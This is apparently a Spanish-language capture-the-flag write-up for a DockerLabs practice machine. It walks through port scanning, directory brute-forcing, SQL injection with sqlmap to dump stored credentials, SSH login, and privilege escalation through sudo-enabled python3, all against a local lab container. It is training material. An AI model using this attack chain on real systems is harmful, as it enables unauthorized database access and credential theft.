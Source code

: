 # 🖥️ **Máquina: Crystalteam**  
- **🔹 Dificultad:** Fácil  
- **📌 Descripción:**  
Esta máquina de Docker está diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Se centra en la identificación y explotación de vulnerabilidades en consultas MySQL, lo que permite obtener acceso no autorizado a la base de datos y extraer información sensible.  

Agradecimientos: https://dockerlabs.es en esta pagina obtube scrips y las bases para poder crearlo
- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la pagina web Certificacion mediante técnicas de **inyección SQL**.  
  - Comprender el impacto de estas vulnerabilidades.  

---

## 🚀 **Despliegue de la Máquina Backend en DockerLabs**  

Para iniciar la máquina, sigue estos pasos:

### 1️⃣ **Descargar el archivo**  
Comienza descargando el archivo en:

```bash
https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing
```

### 2️⃣ **Ejecutar el despliegue automático**  
Una vez descargas el archivo, ejecuta el siguiente comando para desplegar la máquina:
```bash
bash auto_deploy.sh crystalteam.tar
```
![Máquina Backend](/Img/Docker.jpeg)

Una vez iniciada, comprueba la conexión con el siguiente comando:

```bash
ping -c4 172.17.0.2
```

Cuando la conexión esté confirmada, comenzamos la fase de reconocimiento con:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
📌 **Nota:** En mis repositorios encontrarás scripts personalizados con los comandos utilizados en esta fase.

Para extraer la información relevante de los resultados de escaneo, utilizo el siguiente comando:

```bash
extracPorts allPorts.txt
```

Con los puertos identificados, realizamos un análisis más detallado con el siguiente comando para obtener información sobre los servicios que están corriendo en dichos puertos:

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```
![Máquina Backend](/Img/Puertos.jpeg)

📌 **Nota:** Esta información nos permite identificar posibles vulnerabilidades basadas en las versiones de los servicios, como en este caso, donde el puerto 22 está relacionado con SSH y el puerto 80 con una página web.

Para acceder a la página web desde el navegador, añade la dirección IP de la máquina (172.17.0.2) en tu archivo de hosts. Para ello, edita el archivo con:

```bash
nano /etc/hosts
```
Luego, recopilamos información sobre la página web con el siguiente comando, lo que nos permitirá conocer los servicios y versiones utilizados, y buscar posibles vulnerabilidades:

```bash
whatweb 172.17.0.2
```
![Máquina Backend](/Img/whatweb.jpeg)

Al acceder a la página, observamos que existe varios apartados y un formulario de registro y de login. Intentamos ingresar utilizando credenciales predeterminadas, pero no tienen éxito.

![Máquina Backend](/Img/index.jpeg)

![Máquina Backend](/Img/ad.jpeg)

Para encontrar posibles directorios ocultos, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b '403,404' -x php,html,txt
```
Para encontrar posibles sub-dominios, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Nota:** Si no tienes instalada la lista de directorios, puedes hacerlo con:

```bash
apt -y install seclists
```

![Máquina Backend](/Img/domi.jpeg)

![Máquina Backend](/Img/php.jpeg)

No encontramos subdominios o directorios importantes.

Para confirmar si la página es vulnerable a inyecciones SQL, intentamos ingresar `admin'` en el campo de usuario, lo que provoca un error de base de datos. Esto indica que la página es vulnerable a inyecciones SQL, ya que el carácter de comilla simple (') altera la estructura de la consulta SQL.
![Máquina Backend](/Img/in.jpeg)

![Máquina Backend](/Img/error.jpeg)

Utilizamos **Burp Suite** para interceptar la solicitud y luego copiarla a un archivo `.req`, lo que nos permitirá usarla más tarde.

Con **sqlmap**, una herramienta automática para realizar inyecciones SQL, atacamos el formulario para obtener información sensible. El comando utilizado fue:

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```
![Máquina Backend](/Img/sql.jpeg)

Al finalizar la inyección, conseguimos acceder a una base de datos llamada **inicio**, que contiene nombres de usuario y contraseñas. Sin embargo, solo una credencial fue valida para iniciar sesión en la página web. Intentamos acceder por SSH y encontramos que la única credencial válida era `alejandro`. Aunque se puede intentar hacer un ataque automatizado con **Hydra**, la cantidad de contraseñas era pequeña, por lo que se optó por hacerlo manualmente.

![Máquina Backend](/Img/Tabla.jpeg)
Para acceder por SSH, usamos: 

```bash
ssh alejandro@172.17.0.2 -p 22
```
![Máquina Backend](/Img/ssh.jpeg)

Se encontro un archivo redflag.txt pero no podiamos acceder porque solo el usuario root tenia los permisos, buscamos vulnerabilidades para escalar privilegios y encontre que python puede ejecutar comando como root con el comando lo verificamos.

```bash
sudo -l | grep python
```
Procedemos a explotar esta vulnerabilidad:

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)
Por ultimo verificamos las credenciales que sean correctas:
```bash
su -
```
![Máquina Backend](/Img/ter.jpeg)
